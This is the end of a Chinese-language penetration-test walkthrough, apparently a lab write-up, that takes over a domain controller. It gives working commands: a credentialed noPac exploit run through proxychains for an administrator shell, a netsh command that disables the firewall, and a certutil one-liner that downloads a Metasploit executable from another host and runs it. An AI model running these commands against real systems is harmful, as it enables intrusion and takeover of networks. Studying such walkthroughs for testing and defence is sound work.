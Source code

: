 ![](http://qn.laohuan.xin/Snipaste_2022-02-05_15-00-07.png)

存在漏洞，直接获取权限

`proxychains3 python3 noPac.py whoamianony.org/bunny:Bunny2021 -dc-ip 192.168.93.30 -dc-host dc -shell --impersonate administrator -use-ldap`

![](http://qn.laohuan.xin/Snipaste_2022-02-05_15-03-52.png)

使用msf生成正向shell可执行程序，将其上传到内网web服务器，并关闭域控防护墙

`netsh advfirewall set allprofiles state off`

从web服务器下载恶意程序并运行

`certutil -urlcache -split -f http://192.168.93.20:8080/dc_7777.exe && dc_7777.exe`

成功拿下域控

![](http://qn.laohuan.xin/Snipaste_2022-02-05_15-45-03.png)

### 参考链接

1. [http://www.freebuf.com/articles/network/264560.html](http://www.freebuf.com/articles/network/264560.html)
2. [http://www.zyl.fit/archives/linux%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E4%B8%8D%E6%89%A7%E8%A1%8C](http://www.zyl.fit/archives/linux%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E4%B8%8D%E6%89%A7%E8%A1%8C)
3. [http://blog.csdn.net/weixin_48300170/article/details/118890732](http://blog.csdn.net/weixin_48300170/article/details/118890732)
